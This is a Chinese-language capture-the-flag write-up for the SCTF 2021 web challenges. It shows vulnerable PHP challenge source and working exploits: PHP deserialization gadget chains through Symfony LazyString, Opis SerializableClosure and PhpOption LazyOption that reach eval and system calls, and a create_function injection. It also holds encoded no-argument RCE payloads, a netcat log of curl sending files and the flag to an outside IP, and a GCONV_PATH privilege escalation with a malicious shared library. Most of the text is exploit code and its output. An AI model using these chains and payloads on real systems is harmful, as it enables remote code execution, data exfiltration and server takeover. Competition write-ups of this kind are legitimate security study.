# 2021-SCTF-Web-Writeup

## Loginme

https://chowdera.com/2021/09/20210923173040149g.html

拿`X-Real-Ip`。然后模板注入。

```
?age={{.}}
```


## Upload_it

任意上传文件：

```php
<?php
include_once "../vendor/autoload.php";

error_reporting(0);
session_start();

define("UPLOAD_PATH", "/tmp/sandbox");
if (!file_exists(UPLOAD_PATH)) {
    @mkdir(UPLOAD_PATH);
}

function make_user_upload_dir() {
    $md5_dir = md5($_SERVER['REMOTE_ADDR'] . session_id());
    $upload_path = UPLOAD_PATH . "/" . $md5_dir;
    @mkdir($upload_path);
    $_SESSION["upload_path"] = $upload_path;
}

if (empty($_SESSION["upload_path"])) {
    make_user_upload_dir();
}

if (!empty($_FILES['file'])) {
    $file = $_FILES['file'];
    if ($file['size'] < 1024 * 1024) {
        if (!empty($_POST['path'])) {
            $upload_file_path = $_SESSION["upload_path"]."/".$_POST['path'];
            $upload_file = $upload_file_path."/".$file['name'];
        } else {
            $upload_file_path = $_SESSION["upload_path"];
            $upload_file = $_SESSION["upload_path"]."/".$file['name'];
        }

        if (move_uploaded_file($file['tmp_name'], $upload_file)) {
            echo "OK! Your file saved in: " . $upload_file;
        } else {
            echo "emm...Upload failed:(";
        }
    } else {
        echo "too big!!!";
    }
} else if (!empty($_GET['phpinfo'])) {
    phpinfo();
    exit();
} else {
    echo <<<CODE
<html>
    <head>
        <title>Upload</title>
    </head>

    <body>
        <h1>Upload files casually XD</h1>
        <form action="index.php" method="post" enctype="multipart/form-data">
            FILE: <input type="file" name="file">
            PATH: <input type="text" name="path">
            <input type="submit">
        </form>

        <hr>

        <h3>or...Just look at the phpinfo?</h3>
        <a href="./index.php?phpinfo=1">go to phpinfo</a>
    </body>
</html>
CODE;
}
```

发现给了`composer.json`，拿`composer`把`vendor`下载下来，是`opis`和`symfony`：


查了一下发现thinkphp的反序列化里面也用到了，利用的是`\Opis\Closure\SerializableClosure`：



它的`__invoke`：



所以可以想办法利用这里，继续往前找可以触发`__invoke`的点，发现了`LazyString`的`__toString`：


想办法触发`__toString`即可。

发现index.php的这里：

```php
$upload_file_path = $_SESSION["upload_path"]."/".$_POST['path'];
```

上传session控制`$_SESSION`即可。

POC：

```php
<?php
namespace Symfony\Component\String{

    use Opis\Closure\SerializableClosure;

    class LazyString{
        private $value;
        public function __construct(){
            $func =function (){
                eval($_GET['feng']);
            };
            $this->value = new \Opis\Closure\SerializableClosure($func);
        }
    }
}
namespace {
    include_once "./vendor/autoload.php";
    session_start();

    use Symfony\Component\String\LazyString;

    $a= new LazyString();
    $_SESSION["upload_path"] = $a;
}
```

在本地找到session文件：



把它上传到`tmp`目录下面：


（不这样也行，把所有属性都改成`public`）

然后PHPSESSID改成`cm19qh3da8eo1thluucm1hlqkf`后再上传文件即可触发：



但实际上好像不是这样的。。。好像触发点是`__sleep`？`ezosu`也是这样。

## ezosu

一个imiphp的题：

```php
<?php

namespace ImiApp\ApiServer\Controller;

use Imi\App;
use Imi\Db\Db;
use Imi\Redis\Redis;
use Imi\Server\Http\Controller\HttpController;
use Imi\Server\Http\Route\Annotation\Action;
use Imi\Server\Http\Route\Annotation\Controller;
use Imi\Server\Http\Route\Annotation\Route;
use Imi\Server\View\Annotation\HtmlView;
use Imi\Server\View\Annotation\View;
use Imi\Server\Session\Session;

/**
 * @Controller("/")
 */
class IndexController extends HttpController
{
    /**
     * @Action
     * @Route("/")
     *
     * @return array
     */
    public function index()
    {
        return $this->response->redirect("/index.html");
    }

    /**
     * @Action
     * 
     * @return array
     */
    public function config()
    {
        $method = $this->request->getMethod();
        $res = [
            "msg" => "ok",
            "status" => "200",
            "value" => true
        ];

        if ($method === "POST") {
            Session::clear();
            $configData = $this->request->getParsedBody();
            foreach ($configData as $k => $v) {
                Session::set($k, $v);
            }
        } else if ($method === "GET") {
            $configData = Session::get();
            if ($configData != null) {
                $res["value"] = $configData;
            } else {
                $res = [
                    "msg" => "Not Find",
                    "status" => "404",
                    "value" => null
                ];
            }
        } else {
            $res = [
                "msg" => "Unsupported method",
                "status" => "405",
                "value" => false
            ];
        }
        return $res;
    }
}

```

可以自定义session。把题目环境的文件和imi官方的文件进行比对了一下，发现多了这么一行东西：



尝试进行恶意的session注入：



所以就是找imi的链子了（但是没找到）。。。。

找到的是被`__wakeup`的，后面一部分包含了`__toString`。

比赛的时候盲猜会不会`SESSION`对象在imi中有什么处理然后触发`__toString`，试了一下过了成功触发了。。。

直接看POC就知道了，最后的RCE点：



考虑到php7.4而且没回显而且写进session时候有些字符还会出问题，想到了`create_function`注入。

POC：

```php
<?php


namespace Symfony\Component\String{

    use PhpOption\LazyOption;

    class LazyString{
        public $value;
        public function __construct(){
            $a = new LazyOption();
            $this->value =[$a,'getIterator'];
        }
    }
}
namespace PhpOption{
    final class LazyOption{
        public $option = null;
        public $callback = 'create_function';
        public $arguments = ['',"}system(base64_decode('xxx'));//"];
    }
}
namespace {


    use Symfony\Component\String\LazyString;

    session_start();
    $_SESSION['feng'] = new LazyString();
}
```

然后填进去：



2次即可触发。然后curl外带出来flag就行了。

```shell
root@VM-0-6-ubuntu:~# nc -lvvp 39767
Listening on [0.0.0.0] (family 0, port 39767)
Connection from ecs-124-70-204-21.compute.hwclouds-dns.com 56688 received!
POST / HTTP/1.1
Host: 121.5.169.223:39767
User-Agent: curl/7.76.1
Accept: */*
Content-Length: 2034
Content-Type: multipart/form-data; boundary=------------------------484cb7eb09ce5048

--------------------------484cb7eb09ce5048
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

/usr/local/lib/php/build/ax_check_compile_flag.m4
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/etc/where_is_my_flag
/etc/where_is_my_flag/flag
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS18/flags
/sys/devices/platform/serial8250/tty/ttyS9/flags
/sys/devices/platform/serial8250/tty/ttyS26/flags
/sys/devices/platform/serial8250/tty/ttyS16/flags
/sys/devices/platform/serial8250/tty/ttyS7/flags
/sys/devices/platform/serial8250/tty/ttyS24/flags
/sys/devices/platform/serial8250/tty/ttyS14/flags
/sys/devices/platform/serial8250/tty/ttyS5/flags
/sys/devices/platform/serial8250/tty/ttyS22/flags
/sys/devices/platform/serial8250/tty/ttyS12/flags
/sys/devices/platform/serial8250/tty/ttyS30/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS20/flags
/sys/devices/platform/serial8250/tty/ttyS10/flags
/sys/devices/platform/serial8250/tty/ttyS29/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/platform/serial8250/tty/ttyS19/flags
/sys/devices/platform/serial8250/tty/ttyS27/flags
/sys/devices/platform/serial8250/tty/ttyS17/flags
/sys/devices/platform/serial8250/tty/ttyS8/flags
/sys/devices/platform/serial8250/tty/ttyS25/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags

--------------------------484cb7eb09ce5048--
^C
root@VM-0-6-ubuntu:~# nc -lvvp 39767
Listening on [0.0.0.0] (family 0, port 39767)
Connection from ecs-124-70-204-21.compute.hwclouds-dns.com 56698 received!
POST / HTTP/1.1
Host: 121.5.169.223:39767
User-Agent: curl/7.76.1
Accept: */*
Content-Length: 240
Content-Type: multipart/form-data; boundary=------------------------8ea4f0b370455f5a

--------------------------8ea4f0b370455f5a
Content-Disposition: form-data; name="file"; filename="flag"
Content-Type: application/octet-stream

SCTF{Wow_unS@f3_S3sSi0N_w0w_sL33P_Cha1n_woW}
--------------------------8ea4f0b370455f5a--
^C

```

看着`flag`知道这是一个`sleep chain`。。。赛后和别的师傅交流了一下才知道原来会进行`serialize`（是我菜了）：





触发`__toString`。

## upload it 2

基本没咋改，只是多了沙盒类：

```php
// emmm...easy backdoor
class sandbox {
	private $evil;
	public $upload_path;
	
	public function make_user_upload_dir() {
		$md5_dir = md5($_SERVER['REMOTE_ADDR'] . session_id());
		$this->upload_path = UPLOAD_PATH . "/" . $md5_dir;
		@mkdir($this->upload_path);
		$_SESSION["upload_path"] = $this->upload_path;
	}
	
	public function has_upload_dir() {
		return !empty($_SESSION["upload_path"]);
	}
	
	public function __wakeup() {
		/*
		I removed this code because it was too dangerous.
		*/
		throw new Error("NO NO NO");
	}
	
	public function __destruct() {
		/*
		I removed this code because it was too dangerous.
		*/
	}
	
	public function __call($func, $value) {
		if (method_exists($this, $func)) {
			call_user_func_array(
				[$this, $func],
				$value
			);
		}
	}
	
	private function backdoor() {
		// __destruct and __wakeup are deleted. It looks like backdoor should not be called.
		include_once $this->evil;
	}
}
```

调用`backdoor`包含`/flag`就行了，POC：

```php
<?php

namespace Symfony\Component\String{
    class LazyString{
        public $value;
        public function __construct(){
            $a = new \sandbox();
            $this->value = [$a,'backdoor'];
        }
    }
}
namespace {

    use Symfony\Component\String\LazyString;

    class sandbox {
        public $evil;
        public function __construct(){
            $this->evil = "/flag";
        }
    }

    session_start();
    $a= new LazyString();
    $_SESSION["upload_path"] = $a;
}
```

按`Upload_it`的思路打就行了。`__wakeup`不影响。跟0CTF那个原理应该一样。




还是`sleep`。。。这三题属于被我全歪打正着了属于是。。。

## Rceme

```php
<?php
if(isset($_POST['cmd'])){
    $code = $_POST['cmd'];
    if(preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/ixm',$code)){
        die('<script>alert(\'Try harder!\');history.back()</script>');
    }else if(';' === preg_replace('/[^\s\(\)]+?\((?R)?\)/', '', $code)){
        @eval($code);
        die();
    }
} else {
    highlight_file(__FILE__);
    var_dump(ini_get("disable_functions"));
}
?>
    
    
```

正则都是去年极客大挑战的原题，拿取反绕一下就行了。

无参数rce是难点。

这里我用的是：

```php
create_function(...unserialize());
```

字符串的话，比如字符串x取反是y，那么可以这样得到：

```php
[~y][~%CF].unserialize();
```

这样也满足了那个正则，`unserialize`也拿取反弄一下就行了。

数组的话也拿反序列化得到，因为ban了逗号，然后拿`create_function`代码注入就行了。

POC：

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=phpinfo();
```

然后就是提权，是iconv提权但是我比赛的时候没打通，赛后Jiang提示下才发现原来是`gconv-modules`写的不对

说一下思路吧，首先就是写文件：

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=
$file = new SplFileObject("/tmp/feng.so", 'w');
$file->fwrite($_POST['file']);

&file=xxx
```

写恶意so进去。

然后是`gconv-modules`

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=
$file = new SplFileObject("/tmp/gconv-modules", 'w');
$file->fwrite($_POST['file']);

&file=module  FENG//    INTERNAL    ../../../../../../../../tmp/feng    2
module  INTERNAL    FENG//    ../../../../../../../../tmp/feng    2
```

然后执行：

```php
cmd=[~%9C%8D%9A%9E%8B%9A%A0%99%8A%91%9C%8B%96%90%91][~%CF](...[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]([~%9E%C5%CD%C5%84%96%C5%CF%C4%8C%C5%CF%C5%DD%DD%C4%96%C5%CE%C4%8C%C5%CE%C6%C5%DD%82%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CF%A2%D6%C4%D0%D0%DD%C4%82][~%CF].[~%8A%91%8C%9A%8D%96%9E%93%96%85%9A][~%CF]()));&0=
    putenv("GCONV_PATH=/tmp/");
include("php://filter/read=convert.iconv.feng.utf-8/resource=/tmp/feng.so")
```


c代码：

```c
root@VM-0-6-ubuntu:~# cat payload.c
#include <stdio.h>
#include <stdlib.h>

void gconv() {}

void gconv_init() {
  puts("pwned");
  system("/readflag > /tmp/feng");
  exit(0);
}

```




